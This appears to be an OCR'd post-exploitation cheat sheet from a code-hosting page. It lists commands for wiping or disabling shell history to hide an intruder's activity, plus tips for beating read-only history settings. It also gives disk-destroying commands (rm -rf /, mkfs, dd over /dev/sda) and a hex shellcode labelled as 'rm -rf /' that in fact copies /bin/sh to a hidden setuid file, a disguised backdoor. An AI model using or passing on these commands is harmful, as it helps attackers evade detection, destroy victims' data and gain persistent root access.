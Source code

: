 | File | Description and/or Reason |
| --- | --- |
| `history -c` | clear all history in ram |
| `rm -rf ~/.bash_history && ln -s ~/.bash_history /dev/null` | Invasive |
| `touch ~/.bash_history` | Invasive |
| `<space> history -c` | Using a space before a command |
| `zsh% unset HISTFILE HISTSIZE` |  |
| `tcsh% set history=0` |  |
| `bash$ set +o history` |  |
| `ksh$ unset HISTFILE` |  |
| `find / -type f -exec {}` | Forensics nightmare |

Note that you’re probably better off modifying or temporary disabling rather than deleting history files, it leaves a lot less traces and is less suspect.

In some cases `HISTFILE` and `HISTFILESIZE` are made read-only; get around this by explicitly clearing history (history -c) or by kill -9 $$’ing the shell. Sometimes the shell can be configured to run ‘history -w’ after every command; get around this by overriding ‘history’ with a no-op shell function. None of this will help if the shell is configured to log everything to syslog, however.

### Deleting and Destroying

Do not tell me you ar that kind of bitch!

**If it is necessary to leave the machine inaccessible or unusable. Note that this tends to be quite evident (as opposed to a simple exploitation that might go unnoticed for some time, even forever), and will most surely get you into troubles.**  
**Oh, and you’re probably a jerk if you use any of the stuff below.**

| File | Description and/or Reason |
| --- | --- |
| `rm -rf /` | This will recursively try to delete all files |
| `mkfs.ext3 /dev/sda` | Reformat the device mentioned, making recovery of files hard  |
| `dd if=/dev/zero of=/dev/sda bs=1M` | Overwrite disk `/dev/sda` with zeros |

* Hex version of `rm -rf /` *(How is this supposed to work?)* 

```
char esp[] \_\_attribute\_\_ ((section(”.text”))) /* e.s.p release */ = “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68\"  
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99\"  
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7\"  
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"  
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"  
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"  
“\x6e\x2f\x73\x68\x00\x2d\x63\x00"  
“cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;  
```

